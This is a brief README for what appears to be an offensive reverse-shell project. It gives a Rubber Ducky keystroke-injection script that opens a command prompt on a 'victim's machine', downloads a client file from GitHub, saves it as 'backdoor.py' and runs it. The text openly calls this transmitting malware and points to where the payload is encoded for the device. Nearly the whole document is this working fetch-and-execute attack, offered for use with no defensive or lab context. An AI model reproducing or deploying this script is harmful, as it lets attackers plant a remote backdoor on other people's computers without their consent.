 ﻿# Reverse-Shell-Manager


## We need to run client.py file in victim's machine to execute the payload. So I used rubber ducky here to transmit the malware.

# ducky script: <br>
DELAY 1000<br>
GUI r<br>
ENTER<br>
DELAY 100<br>
STRING cmd<br>
ENTER<br>
DELAY 1000<br>
STRING pip install rsa pyautogui && powershell -c "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/VishnuChebolu/Reverse-Shell-Manager/main/client.py' -OutFile 'c:\Users\%username%\Desktop\backdoor.py'" && cd Desktop &&python backdoor.py<br>
ENTER


The above script just download client.py file from github and execute it.

Go to https://shop.hak5.org/pages/ducky-encoder to encode the payload into bin file and insert the bin file in the rubber ducky.
